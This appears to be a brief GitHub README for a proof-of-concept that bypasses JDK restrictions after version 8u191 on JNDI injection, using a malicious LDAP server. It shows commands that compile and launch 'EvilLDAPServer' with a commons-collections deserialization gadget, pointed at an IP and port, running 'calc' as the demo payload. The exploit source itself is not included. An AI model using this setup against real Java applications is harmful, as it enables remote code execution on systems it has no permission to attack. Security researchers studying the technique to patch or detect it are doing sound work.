 # JDNI-Bypass-JDK-By-LDAP

参考：
- [8u191之后的JNDI注入(LDAP)](https://mp.weixin.qq.com/s/0LePKo8k7HDIjk9ci8dQtA)

```bash
javac -encoding GBK -g -cp "commons-collections-3.1.jar;unboundid-ldapsdk-3.1.1.jar" EvilLDAPServer.java
java -cp ".;commons-collections-3.1.jar;unboundid-ldapsdk-3.1.1.jar" EvilLDAPServer 192.168.85.1 10388 "calc"
```

Demo
![](imgs/LDAP-JDK-bypass.gif)

